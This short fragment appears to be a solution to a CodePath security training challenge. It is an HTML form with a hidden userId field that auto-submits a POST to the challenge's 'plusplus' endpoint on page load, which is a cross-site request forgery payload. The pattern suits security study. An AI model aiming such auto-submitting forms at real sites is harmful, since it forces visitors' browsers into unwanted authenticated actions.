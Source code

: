 <form name="csrfform" action="https://security.codepath.com/user/csrfchallengetwo/plusplus/" method="POST">
  <input type="hidden" name="userId" value="2eff24c04dc96585b7fadc8b1fd6d80081c3ffdd"/>
  <input type="submit"/>
</form>
<script> document.csrfform.submit();  </script>
